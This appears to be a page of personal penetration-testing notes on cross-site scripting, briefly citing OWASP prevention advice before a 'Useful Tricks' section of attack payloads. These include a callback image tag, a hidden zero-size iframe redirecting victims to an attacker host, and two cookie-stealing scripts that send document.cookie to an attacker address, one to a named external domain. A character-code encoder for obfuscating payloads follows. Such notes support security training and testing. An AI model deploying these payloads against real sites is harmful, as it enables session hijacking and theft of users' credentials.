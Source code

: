 		- [OWASP - Parameterized Queries Cheatsheet - ASP](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html#using-asp-net-built-in-feature) to prevent [[SQL-Injection]]s that could lead to uncontrolled writes that then in affect cause a Stored XSS vulnerability.

[DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting)
- Prevent with:
	- [[JavaScript]]: `encodeURIComponent()` 
## Useful Tricks

Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe> src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

 Cookie Stealing from [YouTube - DEF CON Safe Mode Red Team Village - Ray Doyle - Weaponized XSS Moving Beyond Alert](https://www.youtube.com/watch?v=ksq7e6UUDag)
```js
"><script>document.write('<img src="https://www.doyer.net:8000/grab.png?cookie=' + document.cookie + "'/>')</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).

With iframes see either `src` indicative of a URL or content with `data` or `srcdoc` in [Hacktrick Iframes in XSS, CSP, and SOP](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp) 

Use Minification and encoding with JavaScript in Browser developer console to encode minifed Javascript payloads
```js
// use https://jscompress.com or similar to minify JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
